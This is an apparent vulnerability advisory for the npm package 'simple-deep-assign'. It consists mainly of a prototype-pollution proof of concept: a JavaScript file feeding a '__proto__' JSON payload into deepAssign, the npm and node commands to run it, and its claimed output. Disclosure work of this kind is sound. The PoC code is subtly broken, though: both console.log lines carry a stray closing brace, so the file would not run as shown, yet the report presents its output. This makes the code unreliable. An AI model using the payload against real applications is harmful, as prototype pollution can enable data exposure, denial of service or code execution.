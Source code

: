 # Description

`simple-deep-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.mjs
import deepAssign from 'simple-deep-assign';

console.log('Before: ', {}.polluted})
deepAssign({}, JSON.parse('{"__proto__": {"polluted": "Prototype Polluted"}}'));
console.log('After: ', {}.polluted})
```
2. Execute the following commands in the terminal:
```bash
npm i simple-deep-assign # install vulnerable package
node poc.mjs # run the PoC
```
3. Check the output:
```
Before: undefined
After: Prototype Polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
